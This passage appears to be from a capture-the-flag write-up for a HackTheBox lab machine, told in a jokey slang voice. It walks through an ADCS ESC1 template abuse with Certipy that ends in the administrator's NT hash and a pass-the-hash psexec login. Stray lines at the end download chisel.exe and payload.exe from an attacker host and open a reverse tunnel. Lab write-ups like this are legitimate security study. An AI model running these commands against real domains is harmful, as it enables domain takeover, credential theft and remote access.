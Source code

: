 We ain't just playin' with fire, we out here installin’ a _gas line_ to the template. Once we can overwrite the template’s settings, we just sprinkle a little bit of ESC1 dust on it (you know, **allow client auth, no manager approval, enroll enabled, all that good good**) and suddenly it’s not just a template anymore—it’s a ticket printer.

And guess who’s standin’ in line for that golden cert? **We are.** This ain't exploitation. This is straight-up **admin cosplay** with full privileges. Let’s go cook that cert and print ourselves a domain takeover, easy-bake oven style.

```console
$ certipy template -u 'infiltrator_svc$@Infiltrator.htb' -hashes '9ae7de37439f359608eccf2cff5d32b9' -target-ip infiltrator.htb -template 'Infiltrator_Template'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating certificate template 'Infiltrator_Template'
[*] Successfully updated 'Infiltrator_Template'

$ certipy req -u 'infiltrator_svc$@Infiltrator.htb' -hashes '9ae7de37439f359608eccf2cff5d32b9' -target dc01.infiltrator.htb -ca 'infiltrator-DC01-CA' -template 'Infiltrator_Template' -upn 'administrator@infiltrator.htb'
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 10
[*] Got certificate with UPN 'administrator@infiltrator.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

$ certipy auth -pfx administrator.pfx -domain 'infiltrator.htb' -dc-ip 10.10.11.31
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@infiltrator.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@infiltrator.htb': aad3b435b51404eeaad3b435b51404ee:1356f502d2764368302ff0369b1121a1
```

And just like that... We’re logged in as **Administrator**.

```console
$ psexec.py -hashes ':1356f502d2764368302ff0369b1121a1' administrator@10.10.11.31
```

Box rooted. Just pure ACL wizardry and a cert with too much ambition. Time to stroll into `C:\Users\Administrator\Desktop`, pop open that `root.txt`, and whisper sweet nothings to the final flag.

**GG. Game. Over**



[dc01.infiltrator.htb]: PS C:\Users\M.harris\Documents> certutil -f -urlcache http://10.10.14.7:8000/chisel.exe C:\Windows\Temp\chisel.exe
[dc01.infiltrator.htb]: PS C:\Windows\Temp> .\chisel.exe client 10.10.14.7:8080 R:14121:127.0.0.1:14406
[10.10.11.31]: PS C:\Windows\Temp> curl.exe http://10.10.14.7:8000/payload.exe -o payload.exe
